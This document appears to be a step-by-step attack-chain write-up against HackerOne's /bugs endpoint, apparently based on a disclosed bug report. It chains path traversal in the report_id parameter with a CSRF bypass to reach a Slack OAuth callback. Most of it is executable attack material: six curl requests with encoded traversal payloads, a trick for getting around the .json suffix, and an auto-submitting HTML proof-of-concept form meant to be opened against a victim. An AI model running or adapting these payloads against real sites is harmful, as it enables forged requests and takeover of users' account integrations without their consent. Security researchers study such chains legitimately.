

# CSRF Bypass via Path Traversal in HackerOne Bugs Endpoint

Multi-stage attack chain demonstrating exploitation of a path traversal vulnerability in the HackerOne /bugs endpoint's report_id parameter, combined with a CSRF bypass, to enable unauthorized GET requests to arbitrary paths such as OAuth callbacks. This allows potential takeover of team integrations if state validation is weak, though full exploitation was limited by parameter handling.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools for inspecting XHR requests
- HTML editor for PoC creation

### Target Environment

- HackerOne platform (Ruby on Rails backend, nginx via Cloudflare)
- Access to a logged-in session on HackerOne
- Services: Slack OAuth, OAuth2 integrations

### Initial Access Requirements

- Valid HackerOne user session (authenticated browser session)
- No special privileges required beyond standard user access
- Network access to hackerone.com

## Detailed Attack Procedures

### Step 1: Observe Normal Endpoint Behavior
procedure: [[procedures/Observe-Normal-Bugs-Endpoint-Behavior]]

**Objective**: Understand the standard functionality of the /bugs endpoint to identify manipulation points.

**Instructions**: Send a standard GET request to the /bugs endpoint with a valid report_id to observe the triggered XHR request fetching report JSON.

Execute [[commands/normal-bugs-request]]:

```bash
curl -X GET "https://hackerone.com/bugs?subject=anontest5667&report_id=99698&view=new&substates%5B%5D=new&text_query=&sort_type=latest_activity&sort_direction=descending&limit=25&page=1" -H "Cookie: your_session_cookie"
```

**Expected Output**: Triggers an XHR GET to https://hackerone.com/reports/99698.json, loading the bugs page normally.

**Success Indicators**:
- Bugs page loads with report data
- XHR request to /reports/{id}.json observed in dev tools

### Step 2: Manipulate report_id with Query Appended
procedure: [[procedures/Manipulate-Report-ID-with-Query-Appended]]

**Objective**: Alter the internal JSON fetch URL by appending a query string to the report_id.

**Instructions**: Modify the report_id parameter by appending an encoded '?' to change the fetched URL structure.

Execute [[commands/query-appended-report-id]]:

```bash
curl -X GET "https://hackerone.com/bugs?subject=anontest5667&report_id=99698%3F&view=new&substates%5B%5D=new&text_query=&sort_type=latest_activity&sort_direction=descending&limit=25&page=1" -H "Cookie: your_session_cookie"
```

**Expected Output**: Triggers XHR GET to https://hackerone.com/reports/99698?.json, confirming URL alteration.

**Success Indicators**:
- Modified XHR URL with appended '?' visible
- No errors in response, endpoint processes the change

### Step 3: Perform Path Traversal to Escape Directory
procedure: [[procedures/Perform-Path-Traversal-to-Escape-Directory]]

**Objective**: Use '../' sequences to traverse out of the /reports directory and access root-level paths without CSRF protection.

**Instructions**: Set report_id to encoded path traversal payload to escape to the root.

Execute [[commands/path-traversal-escape]]:

```bash
curl -X GET "https://hackerone.com/bugs?subject=anontest5667&report_id=..%2F..%2F..%2F99698%3F&view=new&substates%5B%5D=new&text_query=&sort_type=latest_activity&sort_direction=descending&limit=25&page=1" -H "Cookie: your_session_cookie"
```

**Expected Output**: Triggers GET to /99698?.json from root path, with CSRF token in header, confirming directory escape.

**Success Indicators**:
- Request escapes /reports and hits root
- CSRF token absent or bypassed in the internal request

### Step 4: Attempt CSRF on Slack OAuth Callback
procedure: [[procedures/Attempt-CSRF-on-Slack-OAuth-Callback]]

**Objective**: Target a sensitive OAuth callback endpoint via the traversal to simulate CSRF.

**Instructions**: Construct report_id to point to the Slack OAuth callback with parameters, but note the .json suffix issue.

Execute [[commands/slack-oauth-callback-attempt]]:

```bash
curl -X GET "https://hackerone.com/bugs?subject=anontest5667&report_id=..%2F..%2F..%2Fauth%2Fslack%2Fcallback%3Fcode%3D14582397537.14583911921.010c282773%26state%3Dc802bcef4532f0122d0f06088a2eaea890d746f0cb4d39b2%3F&view=new&substates%5B%5D=new&text_query=&sort_type=latest_activity&sort_direction=descending&limit=25&page=1" -H "Cookie: your_session_cookie"
```

**Expected Output**: GET to //auth/slack/callback?code.json, which fails due to .json blocking parameters, resulting in 302 to /auth/failure.

**Success Indicators**:
- Internal request to OAuth path triggered
- Parameters blocked by .json suffix

### Step 5: Bypass JSON Suffix with Fake Parameter
procedure: [[procedures/Bypass-JSON-Suffix-with-Fake-Parameter]]

**Objective**: Overcome the .json suffix limitation by adding a fake parameter to preserve query string processing.

**Instructions**: URL-encode parameters and append a dummy parameter like &asd= to the callback URL.

Execute [[commands/json-suffix-bypass]]:

```bash
curl -X GET "https://hackerone.com/bugs?subject=anontest5667&report_id=..%2F..%2F..%2Fauth%2Fslack%2Fcallback%3Fcode%3D14582397537.14583819952.b7ff4c7e48%26state%3D9c6fb6b5039b89c496e01cdb6212a12d6430cfa7ee51ba55%26asd%3D&view=new&substates%5B%5D=new&text_query=&sort_type=latest_activity&sort_direction=descending&limit=25&page=1" -H "Cookie: your_session_cookie"
```

**Expected Output**: GET to /auth/slack/callback?code=...&state=...&asd=.json, processes callback, 302 to /anontest5667/integrations (state validation may block full success).

**Success Indicators**:
- Callback processed without .json blocking
- Redirect to integrations page if state matches

### Step 6: Create HTML PoC for CSRF Attack
procedure: [[procedures/Create-HTML-POC-for-CSRF-Attack]]

**Objective**: Build a client-side PoC to demonstrate the CSRF attack via an auto-submitting form.

**Instructions**: Create an HTML file with a form that submits the malicious /bugs request on load.

Execute [[commands/html-csrf-poc]] (save as HTML and open in browser targeting victim):

```html
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
<form action="https://hackerone.com/bugs" method="GET">
<input type="hidden" name="subject" value="anontest5667">
<input type="hidden" name="report_id" value="../../../auth/slack/callback?code=14582397537.14583819952.b7ff4c7e48&state=9c6fb6b5039b89c496e01cdb6212a12d6430cfa7ee51ba55&asd=">
<input type="hidden" name="view" value="new">
<input type="hidden" name="substates[]" value="new">
<input type="hidden" name="text_query" value="">
<input type="hidden" name="sort_type" value="latest_activity">
<input type="hidden" name="sort_direction" value="descending">
<input type="hidden" name="limit" value="25">
<input type="hidden" name="page" value="1">
</form>
</body>
</html>
```

**Expected Output**: Form auto-submits, triggering the malicious request as if from the victim's browser.

**Success Indicators**:
- PoC loads and submits without user interaction
- Victim's session integrates Slack if state bypassed

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection on internal GET requests via path traversal
2. Accessed sensitive OAuth callbacks without validation
3. Demonstrated potential for unauthorized integration setup
4. Created functional PoC for real-world CSRF delivery

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
